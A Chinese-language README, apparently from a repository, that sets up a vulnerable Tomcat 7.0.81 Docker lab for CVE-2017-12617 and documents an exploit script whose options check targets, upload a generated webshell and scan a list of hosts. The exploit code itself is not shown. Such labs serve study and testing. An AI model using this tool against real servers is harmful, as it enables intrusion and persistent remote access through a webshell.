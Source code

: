 # Tomcat CVE-2017-12617 环境搭建漏洞利用

Tomcat CVE-2017-12617 环境搭建 POC利用

docker pull scxiaotan2/apache-tomcat-7.0.81:CVE-2017-12617      #拉取镜像

docker run -it  scxiaotan2/apache-tomcat-7.0.81:CVE-2017-12617  /bin/bash       #启动shell

./start.sh     #启动根目录下的服务

netstat -tlnp      #可以看到8080端口启用了，tomcat 后台默认用户名 密码均为admin




# tomcat-cve-2017-12617.py 漏洞利用

./cve-2017-12617.py [options]

options:

-u ,--url [::] check target url if it's vulnerable 

-p,--pwn  [::] generate webshell and upload it

-l,--list [::] hosts list

[+]usage:

./cve-2017-12617.py -u http://127.0.0.1

./cve-2017-12617.py --url http://127.0.0.1

./cve-2017-12617.py -u http://127.0.0.1 -p pwn

./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn

./cve-2017-12617.py -l hotsts.txt

./cve-2017-12617.py --list hosts.txt
